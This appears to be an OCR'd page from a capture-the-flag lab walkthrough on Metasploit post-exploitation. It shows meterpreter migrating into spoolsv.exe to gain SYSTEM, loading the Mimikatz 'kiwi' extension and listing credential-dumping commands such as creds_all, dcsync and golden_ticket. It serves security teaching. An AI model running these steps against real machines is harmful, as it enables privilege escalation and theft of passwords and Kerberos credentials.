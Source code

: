 spoolsv.exe

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 

Migrate to this process now with the command `migrate -N PROCESS_NAME`

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2456 to 1380...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Let's check what user we are now with the command `getuid`. What user is listed?

NT AUTHORITY\SYSTEM

Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`. 

```
meterpreter > help kiwi

Kiwi Commands
=============

    Command       Description
    -------       -----------
    creds_all     Retrieve all credentials (parsed)
    creds_kerber  Retrieve Kerberos creds (parsed)
    os
    creds_livess  Retrieve Live SSP creds
    p
    creds_msv     Retrieve LM/NTLM creds (parsed)
    creds_ssp     Retrieve SSP creds
    creds_tspkg   Retrieve TsPkg creds (parsed)
    creds_wdiges  Retrieve WDigest creds (parsed)
    t
    dcsync        Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm   Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticke  Create a golden kerberos ticket
```